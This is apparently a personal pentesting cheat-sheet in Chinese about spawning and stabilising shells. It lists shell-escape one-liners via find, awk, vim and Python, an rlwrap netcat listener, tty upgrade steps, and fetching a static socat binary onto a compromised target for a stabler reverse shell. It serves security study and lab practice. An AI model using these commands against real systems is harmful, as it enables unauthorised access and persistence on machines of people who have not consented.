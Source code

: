`find . -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/bash")}' \; 2>/dev/null`

> [!note] This use of the find command uses the execute option (`-exec`) to initiate the shell interpreter directly. If `find` can't find the specified file, then no shell will be attained.

所以用这个：`find . -exec /bin/bash \; -quit`。没有指定特定的查找条件，所以它会找到当前目录及其子目录中的第一个文件或目录


#### vim

`vim -c ':!/bin/sh'`



#### 在python内部时

`echo os.system('/bin/bash')`



#### rlwrap：对Windows很有用

kali默认没有。安装：`sudo apt install rlwrap`

`rlwrap nc -lvnp 4444`

使用 `rlwrap` 可以让用户在运行那些本身不支持命令行编辑或历史记录（如方向键上下左右）的程序时，仍然能够享受到这些便利的功能。（tab自动补全还是不行）
- rl：readlines

给nc套了一个更为健全的shell。  
对linux时，也可以 `Ctrl+Z, stty raw -echo; fg; reset` 使其更稳定。


#### Socat

先进入nc shell作为垫脚石

将socat的二进制文件传到目标机（因为基本默认没装）
> A [standalone binary](https://github.com/andrew-d/static-binaries) of `Socat` can be transferred to a system after obtaining remote code execution to get a more stable reverse shell connection.

- 二进制文件：`wget https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true`

文件传输的方法参照：[[FileTransfers-Linux]]、[[FileTransfers-Windows]]

> [!NOTE] Windows上似乎socat不比nc稳定



### 更改[[终端]] tty大小

> 这是您的终端在使用常规 shell 时会自动执行的操作；但是，如果您想使用文本编辑器之类的东西来覆盖屏幕上的所有内容，则必须在反向或绑定 shell 中手动完成此操作。

- `stty -a`：查看所有配置
- `stty rows <number>`
- `stty cols <number>`

